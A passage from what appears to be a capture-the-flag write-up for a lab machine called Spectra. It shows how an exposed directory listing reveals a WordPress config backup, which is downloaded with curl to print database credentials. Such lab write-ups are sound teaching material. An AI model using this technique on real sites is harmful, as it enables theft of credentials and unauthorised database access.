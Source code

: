 On test we recieve an error stating that the connection to the database failed.

[![test_page.png](/img/spectra/test_page.png)](/img/spectra/test_page.png)

The interesting thing is if we don't follow the link to `index.php`, but rather just list the root with `/`, we can see that directory listing is enabled and it reveals another worpress installation.

[![listing.png](/img/spectra/listing.png)](/img/spectra/listing.png)

There is also a `wp-config.php.save` which we can download using `curl` or `wget`. The `wp-config.php` file usually stores the database credentials for a wordpress installation so it is often a good target.

```
$ curl http://spectra.htb/testing/wp-config.php.save
...[snip]...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */                                                                         
define( 'DB_NAME', 'dev' );
                                                           
/** MySQL database username */                                                                                        
define( 'DB_USER', 'devtest' );
                                                           
/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );            

/** MySQL hostname */                           
define( 'DB_HOST', 'localhost' );
                                                           
/** Database Charset to use in creating database tables. */ 
define( 'DB_CHARSET', 'utf8' );
                                                           
/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );    
...[snip]...
```
